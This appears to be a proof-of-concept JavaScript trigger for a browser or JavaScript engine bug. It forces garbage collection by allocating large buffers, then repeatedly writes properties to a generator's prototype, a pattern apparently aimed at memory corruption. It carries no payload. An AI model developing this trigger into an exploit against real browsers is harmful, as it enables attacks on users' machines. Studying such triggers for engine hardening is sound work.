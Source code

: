 
function gc() {
    for (let i = 0; i < 20; i++)
        new ArrayBuffer(0x1000000);
}

function trigger() {
    function* generator() {
    }

    for (let i = 0; i < 1022; i++) {
        generator.prototype['b' + i];
        generator.prototype['b' + i] = 0x1234;
    }

    gc();

    for (let i = 0; i < 1022; i++) {
        generator.prototype['b' + i] = 0x1234;
    }
}

trigger();

